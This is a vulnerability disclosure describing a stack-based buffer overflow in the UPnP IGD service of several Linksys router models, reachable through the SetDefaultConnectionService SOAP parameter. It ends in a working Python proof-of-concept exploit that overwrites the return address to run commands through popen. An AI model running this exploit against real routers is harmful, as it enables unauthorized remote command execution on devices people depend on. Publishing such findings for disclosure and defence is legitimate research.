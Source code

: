 #Linksys Vulnerability

Vendor:Linksys

Product:WRT1900ACS,EA7200,EA7450 ,EA7500



Version:

WRT1900ACS(Ver. 2.0.3.201002)

EA7200(Ver. 1.0.3.20817933.9)

EA7450(Ver. 1.0.4.208179)

EA7500(Ver. 3.0.1.207964)



Type:

Stack-based Buffer Overflow



##Vulnerability description

I found a stack overflow vulnerability in Linksys routers. This vulnerability can be used with the popen function to execute arbitrary commands.

In `IGD` binary:

In `SetDefaultConnectionService` function, `NewDefaultConnectionService` is directly passed by the attacker,When using this parameter, strncpy is used directly for copying, causing a stack overflow.

![](https://github.com/feiwuxingxie/cve/blob/main/1.2.png)

![image](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.2.png)


![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.1.png)

Function sub_189BC return with `POP {R4-R8,LR}`.And this binary file contains the popen function, and the parameters are controllable,  we can  execute any command.

![](https://github.com/feiwuxingxie/cve/blob/main/linksys/vul01/1.3.png)



## Poc

```python
import socket

ip="192.168.17.132"
port="49152"

payload='touch /tmp/flag;touch /tmp/flag;sleep 50#'
payload=payload.rjust(0x12c,' ')+'\xd0\x29\x90\xb1'*5+'\x78\x70'

junk='b'*0x1000

file_content='''
<s:Envelope s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"> <s:Body> <u:SetDefaultConnectionService xmlns:u="urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"><NewDefaultConnectionService>{}</NewDefaultConnectionService><NewConnectionService>{}</NewConnectionService></u:SetDefaultConnectionService></s:Body></s:Envelope>
'''.format(payload,junk)

content_len=len(file_content)


template = f'''POST /upnp/control/Layer3Forwarding HTTP/1.1
Host: {ip}:{port}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.4.1688139926.1746780008; _ga_BDYNZJT6JR=GS2.4.s1748393176$o15$g0$t1748393176$j60$l0$h0
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: text/xml;
SOAPACTION: "urn:schemas-upnp-org:service:Layer3Forwarding:1#SetDefaultConnectionService"
Content-Length: {content_len}

{file_content}
'''.replace('\n', '\r\n')
#print(template)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, int(port)))
sock.sendall(template.encode('latin-1'))

data=sock.recv(4096)
print(data)

```

